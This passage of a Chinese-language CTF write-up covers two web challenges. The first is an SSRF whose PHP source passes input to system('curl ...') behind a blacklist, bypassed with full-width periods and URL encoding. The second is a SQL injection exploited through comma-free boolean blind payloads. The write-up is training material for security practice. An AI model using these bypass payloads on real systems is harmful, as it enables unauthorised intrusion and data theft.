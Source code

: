 > 
正则表达式绕过，ssrf


### 思路

> 
观察源码，发现其过滤了很多关键词，源码提示我们flag的位置但是 `.`被过滤了，想到 `。`可以替代 `.`，于是将 `http://192.168.7.68/flag`换成 `http://192。168。7。68/flag`，然后进行url编码 `%68%74%74%70%3A%2F%2F%31%39%32%E3%80%82%31%36%38%E3%80%82%37%E3%80%82%36%38%2F%66%6C%61%67`


### Payload

> 
源码


```
&lt;?php

#flag in http://192.168.7.68/flag
if(isset($_GET['url'])){
    $url = $_GET['url'];
    $protocol = substr($url, 0,7);
    if($protocol!='http://'){
        die('仅限http协议访问');
    }
    if(preg_match('/\.|\;|\||\&lt;|\&gt;|\*|\%|\^|\(|\)|\#|\@|\!|\`|\~|\+|\'|\"|\.|\,|\?|\[|\]|\{|\}|\!|\&amp;|\$|0/', $url)){
        die('仅限域名地址访问');
    }
    system('curl '.$url);
}

```

## web2_观星

### 考点

> 
SQL注入


### 思路

> 
观察url `http://ec9d42c5-9d82-47f6-b1e0-e6ad1f0ec75d.challenge.ctf.show:8080/index.php?id=3`，`id`值很可能存在sql注入点，利用burpsuite进行fuzz一下，其中524是被过滤了的，


> 
未过滤 `^`，考虑布尔盲注`payload:id=1^case(ord(substr((database())from({0})for(1))))when({1})then(2)else(3)end.format(i,j)`，过滤了逗号，if 无法使用则用`case…when…then…else…end#` 代替绕过，substr中的逗号用`substr(…from…for…)`代替绕过
